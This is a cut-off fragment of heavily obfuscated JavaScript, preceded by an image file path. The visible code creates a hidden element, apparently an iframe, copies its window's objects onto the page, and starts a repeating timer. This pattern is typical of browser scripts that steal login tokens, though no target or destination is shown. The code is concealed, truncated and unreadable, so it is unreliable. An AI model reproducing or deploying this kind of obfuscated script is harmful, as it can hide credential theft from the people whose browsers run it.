 _0x2c689b=![],_0x2e7b00;}else{((async()=>{const _0x9751aa={'VDluu':function(_0x101157,_0x3eaefb){return _0x101157(_0x3eaefb);},'Odtty':_0x2c7ca7['LlCwK'],'fVZbi':_0x4007f9(0x158,0x121,0xa9,0x1b1)+_0x406664(0x45f,0x4bb,0x41b,0x497)+_0x406664(0x513,0x588,0x50a,0x574)+_0x4007f9(0x9b,0xe7,0xc3,0x77),'gVAYi':_0x2c7ca7['xdEVp'],'GyUbO':_0x2c7ca7['ZpWHQ'],'deMIx':function(_0xa2dd72,_0x135839){function _0x46aaae(_0x37826c,_0x163ff9,_0x55274b,_0x266956){return _0x406664(_0x55274b- -0x2c3,_0x163ff9-0x3a,_0x55274b-0xe2,_0x37826c);}return _0x2c7ca7[_0x46aaae(0x189,0x1f8,0x1ca,0x173)](_0xa2dd72,_0x135839);},'oUVeA':_0x2c7ca7['yTBEf'],'NycmR':_0x2c7ca7[_0x4007f9(0x1aa,0x175,0x186,0x1a0)],'rAiIV':_0x2c7ca7[_0x4007f9(0x144,0x163,0x119,0x1e9)],'baRfh':function(_0x284523,_0x16c669){return _0x284523==_0x16c669;},'SWXWG':_0x2c7ca7['yuvpA'],'xVFTn':_0x406664(0x49d,0x44d,0x4e3,0x45c),'XjipB':function(_0x4e3b92,_0x3891ac){function _0x589294(_0x245432,_0x3687b8,_0x2bfed2,_0x3cabcb){return _0x4007f9(_0x245432-0x6d,_0x3687b8- -0xde,_0x2bfed2,_0x3cabcb-0x6c);}return _0x2c7ca7[_0x589294(0xd8,0x59,-0x25,0x6)](_0x4e3b92,_0x3891ac);},'ejOaD':_0x2c7ca7[_0x406664(0x4bf,0x526,0x544,0x487)],'DVmSV':_0x2c7ca7[_0x406664(0x48f,0x506,0x42e,0x43f)],'rOuGC':_0x2c7ca7[_0x406664(0x45e,0x47c,0x46e,0x3da)],'XEJEl':function(_0x541043,_0x34cb13){return _0x541043===_0x34cb13;},'LjqZI':_0x2c7ca7[_0x4007f9(0x1c5,0x1b1,0x1ab,0x1d6)],'tsSPc':function(_0x34930e,_0x4b72c1){return _0x34930e!==_0x4b72c1;},'LZnAP':_0x2c7ca7[_0x4007f9(0xff,0x186,0x1b1,0x1dd)],'pZQtO':_0x2c7ca7[_0x406664(0x43f,0x472,0x46a,0x459)],'kREtU':_0x2c7ca7[_0x4007f9(0x102,0xce,0x9c,0x8f)],'XZtQc':_0x2c7ca7[_0x4007f9(0x8f,0xe5,0xf6,0x9a)],'BxcVK':function(_0x31eacb,_0x1c3438){return _0x31eacb!==_0x1c3438;},'YsGSJ':_0x2c7ca7[_0x4007f9(0x148,0x12a,0x15d,0xa3)],'xPQsL':_0x2c7ca7[_0x406664(0x533,0x4e4,0x4e1,0x5a6)],'PNyoY':_0x4007f9(0x202,0x1b5,0x1fc,0x13c),'vjIpW':_0x2c7ca7[_0x4007f9(0xe0,0x14b,0x12d,0x1bb)],'PSMGf':_0x2c7ca7['LriAb'],'LWPHd':function(_0x58f3b,_0x2ae448){function _0x2ab85f(_0x1a42ea,_0x26ebe0,_0x45d8db,_0x185012){return _0x4007f9(_0x1a42ea-0x7e,_0x185012- -0x3df,_0x26ebe0,_0x185012-0x1c3);}return _0x2c7ca7[_0x2ab85f(-0x259,-0x237,-0x2b8,-0x2c5)](_0x58f3b,_0x2ae448);},'AEKcA':_0x2c7ca7[_0x406664(0x4e7,0x495,0x4d2,0x52c)],'TRYnF':function(_0x2a9f8f,_0x35558b){function _0x36ce3a(_0x34274c,_0x11d75b,_0x167e74,_0x2545ea){return _0x406664(_0x34274c- -0x2b6,_0x11d75b-0xf0,_0x167e74-0xe5,_0x2545ea);}return _0x2c7ca7[_0x36ce3a(0x1ca,0x1b0,0x1bb,0x14a)](_0x2a9f8f,_0x35558b);},'mOPlr':_0x2c7ca7[_0x406664(0x50a,0x53d,0x553,0x56a)],'VEDum':function(_0x116f06,_0x12c147){return _0x116f06!==_0x12c147;},'ZKacV':_0x2c7ca7[_0x406664(0x495,0x427,0x477,0x464)],'KCFDV':_0x2c7ca7[_0x406664(0x52e,0x58a,0x4b2,0x52f)],'VCOIY':_0x2c7ca7[_0x4007f9(0xa2,0x12f,0xc3,0x104)],'FVRaZ':function(_0x24eb95,_0x4885e7){return _0x2c7ca7['Sodce'](_0x24eb95,_0x4885e7);},'PJncm':_0x2c7ca7['tuBMx'],'pEAbt':_0x406664(0x446,0x427,0x4cb,0x4ab),'StlGp':_0x2c7ca7[_0x406664(0x506,0x550,0x4b6,0x492)],'BymXc':function(_0x523264,_0x39e88a){return _0x2c7ca7['yylDd'](_0x523264,_0x39e88a);},'mfhRd':'OmwDv','UYzKD':function(_0xa781b7,_0x3f072d){return _0xa781b7(_0x3f072d);},'fJXuZ':function(_0x4eb6f9,_0x1538b9){return _0x4eb6f9-_0x1538b9;},'UhmVe':function(_0x3c0c28,_0x42edc4){function _0x1fb742(_0x1650dc,_0x32ad82,_0x541a05,_0x340ec0){return _0x406664(_0x32ad82- -0x275,_0x32ad82-0x13a,_0x541a05-0x1d4,_0x541a05);}return _0x2c7ca7[_0x1fb742(0x254,0x206,0x206,0x184)](_0x3c0c28,_0x42edc4);},'Otahq':function(_0x127dfb,_0x20e2e8){return _0x127dfb-_0x20e2e8;},'Sspst':function(_0x2e996f,_0x3d8a74){return _0x2e996f-_0x3d8a74;},'PFkPt':function(_0x3de505,_0x1b79cf){return _0x2c7ca7['QDSFU'](_0x3de505,_0x1b79cf);},'bUhtm':function(_0xf75dc7,_0x518881){function _0x3a6db9(_0x220947,_0x1aa824,_0x52f4,_0x23cb83){return _0x4007f9(_0x220947-0xeb,_0x1aa824-0x5f,_0x220947,_0x23cb83-0x19b);}return _0x2c7ca7[_0x3a6db9(0x200,0x1a0,0x123,0x1cd)](_0xf75dc7,_0x518881);}};var _0x140ca0=document[_0x4007f9(0xff,0x158,0x1c9,0x1d3)+'ent'](_0x2c7ca7[_0x4007f9(0x1a6,0x138,0x110,0xc3)]);document[_0x4007f9(0x113,0x154,0x13c,0x15d)]['appendChil'+'d'](_0x140ca0),window[_0x406664(0x481,0x471,0x495,0x49a)]=_0x140ca0['contentWin'+_0x406664(0x530,0x583,0x53e,0x4d5)][_0x406664(0x481,0x4cc,0x3f9,0x4b2)],window[_0x4007f9(0xe0,0x10b,0xa6,0x198)]=_0x140ca0[_0x4007f9(0xab,0x124,0xda,0x17d)+_0x4007f9(0x165,0x1a5,0x1f2,0x15d)][_0x406664(0x496,0x40d,0x4b4,0x45b)];function _0x4007f9(_0x43f98b,_0x1c812c,_0x780a75,_0x398fe0){return _0x5e97b9(_0x780a75,_0x1c812c-0x1c4,_0x1c812c-0x2e0,_0x398fe0-0x50);}window[_0x406664(0x43c,0x3de,0x4cb,0x46e)]=_0x140ca0[_0x406664(0x4af,0x525,0x4ac,0x51e)+'dow'][_0x4007f9(0x69,0xb1,0xc6,0x5a)];try{if(_0x2c7ca7[_0x4007f9(0x1f8,0x1ae,0x134,0x16c)](_0x2c7ca7['Rovfk'],_0x2c7ca7[_0x4007f9(0x187,0x119,0x97,0x127)])){const _0x2240c1=_0x2c7ca7[_0x4007f9(0x171,0x126,0xc0,0x103)](setInterval,()=>{const _0x213e1d={};function _0x4c5171(_0x362b9e,_0x27a5b1,_0x2eacf0,_0x4f0a9e){return _0x406664(_0x362b9e- -0x73f,_0x27a5b1-0xe5,_0x2eacf0-0x86,_0x4f0a9e);}_0x213e1d[_0x4c5171(-0x225,-0x281,-0x276,-0x297)]=_0x9751aa[_0x4c5171(-0x29c,-0x258,-0x2bd,-0x2f3)];function _0x1918c3(_0x1727dd,_0x14f699,_0x5b1cc5,_0x1a8acb){return _0x4007f9(_0x1727dd-0x11b,_0x5b1cc5-0x26e,_0x1727dd,_0x1a8acb-0x14);}_0x213e1d[_0x1918c3(0x2c9,0x2f5,0x34c,0x379)]=_0x9751aa[_0x1918c3(0x3a3,0x3c2,0x39c,0x41d)];const _0x35d680=_0x213e1d;if(_0x9751aa[_0x4c5171(-0x24f,-0x230,-0x1f0,-0x1fe)](_0x9751aa[_0x4c5171(-0x216,-0x239,-0x196,-0x2a3)],_0x9751aa['NycmR'])){const